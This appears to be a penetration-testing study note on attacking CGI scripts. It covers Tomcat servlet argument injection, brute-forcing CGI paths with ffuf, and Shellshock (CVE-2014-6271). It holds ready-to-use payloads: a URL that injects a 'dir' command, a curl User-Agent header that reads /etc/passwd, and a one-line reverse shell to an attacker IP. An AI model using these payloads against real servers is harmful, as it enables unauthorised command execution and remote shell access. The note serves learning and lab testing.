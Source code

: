 The `enableCmdLineArugments` setting for the servlet defines whether we can send command line arguments from a query string. If true, the servlet parses the query string and passes it to the CGI script as arguments.

Here's an example of calling `booksearch.cgi` with the argument `fitzgerald`
```http
http://example.com/cgi-bin/booksearch.cgi?action=title&query=the+great+gatsby
```

The vulnerability with this is that the servlet fails to validate command line arguments. For example, an attacker can append `&dir` to a valid command to execute the `dir` on a Windows system. An example of this is:
```HTTP
http://example.com/cgi-bin/hello.bat?&dir
```

To find CGI scripts, we'll need to brute force:
```shell
# Try with extensions such as bat, cmd, py, etc.
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://<IP>:<port>/cgi/FUZZ.<ext>
```

If we encounter an invalid character error when trying to use special characters in our injection, we can bypass this filter by using URL-encoding.
### Shellshock
Most common CGI attack. [`CVE-2014-6271`](https://nvd.nist.gov/vuln/detail/CVE-2014-6271) is simple to exploit and affects Bash 4.3 and below. The vulnerability allows an attacker to exploit how environment variables are saved. The exploit would have the OS execute commands that are in functions stored in an environment variable. 

Here's an example, where "not vulnerable" would be printed :
```shell
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

If the system were vulnerable, `y` would be stored. Once imported by running the next command, it'd be executed first. 

Example attack against a CGI script:
```shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://<IP>/cgi-bin/access.cgi

# One line reverse shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<IP>/<port> 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```


---
Navigation: [[Pentesting]]